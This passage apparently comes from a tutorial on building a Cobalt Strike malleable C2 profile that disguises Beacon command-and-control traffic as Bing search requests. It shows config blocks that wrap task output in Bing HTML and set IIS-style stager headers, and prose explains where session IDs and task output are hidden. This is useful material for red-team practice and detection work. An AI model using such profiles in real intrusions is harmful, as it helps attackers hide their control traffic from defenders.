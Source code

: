 ```plaintext
        output {
            netbios;
            prepend "<!DOCTYPE html><html lang=\"en\" xml:lang=\"en\" xmlns=\"http://www.w3.org/1999/xhtml\" xmlns:Web=\"http://schemas.live.com/Web/\"><script type=\"text/javascript\">//<![CDATA[si_ST=new Date;//]]></script><head><!--pc--><title>Bing</title><meta content=\"text/html; charset=utf-8\" http-equiv=\"content-type\" /><link href=\"/search?format=rss&amp;q=canary&amp;go=Search&amp;qs=bs&amp;form=QBRE\" rel=\"alternate\" title=\"XML\" type=\"text/xml\" /><link href=\"/search?format=rss&amp;q=canary&amp;go=Search&amp;qs=bs&amp;form=QBRE\" rel=\"alternate\" title=\"RSS\" type=\"application/rss+xml\" /><link href=\"/sa/simg/bing_p_rr_teal_min.ico\" rel=\"shortcut icon\" /><script type=\"text/javascript\">//<![CDATA[";
            append "G={ST:(si_ST?si_ST:new Date),Mkt:\"en-US\",RTL:false,Ver:\"53\",IG:\"4C1158CCBAFC4896AD78ED0FF0F4A1B2\",EventID:\"E37FA2E804B54C71B3E275E9589590F8\",MN:\"SERP\",V:\"web\",P:\"SERP\",DA:\"CO4\",SUIH:\"OBJhNcrOC72Z3mr21coFQw\",gpUrl:\"/fd/ls/GLinkPing.aspx?\" }; _G.lsUrl=\"/fd/ls/l?IG=\"+_G.IG ;curUrl=\"http://www.bing.com/search\";function si_T(a){ if(document.images){_G.GPImg=new Image;_G.GPImg.src=_G.gpUrl+\"IG=\"+_G.IG+\"&\"+a;}return true;};//]]></script><style type=\"text/css\">.sw_ddbk:after,.sw_ddw:after,.sw_ddgn:after,.sw_poi:after,.sw_poia:after,.sw_play:after,.sw_playa:after,.sw_playd:after,.sw_playp:after,.sw_st:after,.sw_sth:after,.sw_ste:after,.sw_st2:after,.sw_plus:after,.sw_tpcg:after,.sw_tpcw:after,.sw_tpcbk:after,.sw_arwh:after,.sb_pagN:after,.sb_pagP:after,.sw_up:after,.sw_down:after,.b_expandToggle:after,.sw_calc:after,.sw_fbi:after,";
            print;
        }
    }
}
```

There are a few key changes we need to make for the *http-post* client section. First, we need to make the URI distinct from the *http-get* URI by making "Search" start with a capital letter. We also change the HTTP verb to GET, as opposed to the default POST. In this section we have two pieces of information Beacon must return to the Cobalt Strike server: the session ID and task output. We place the *base64url*-encoded task output in the *q* URL parameter, where we configured *http-get* to send host metadata. The session ID we send in the *form* URL parameter, which was previously a static value.

In the server portion, we mirror the *http-get* options for traffic consistency. Beacon will ultimately disregard this traffic, but it will keep the traffic looking as normal as possible. The *http-post* server output **must** use the *print* termination statement.

## HTTP-Stager

The last portion of the profile is the *http-stager*, where we configure headers for Cobalt Strike to use during the staging process. For the Bing web search profile we will mirror our previous server headers:

```plaintext
http-stager {
    server {
        header "Cache-Control" "private, max-age=0";
        header "Content-Type" "text/html; charset=utf-8";
        header "Vary" "Accept-Encoding";
        header "Server" "Microsoft-IIS/8.5";
        header "Connection" "close";
    }
}
```
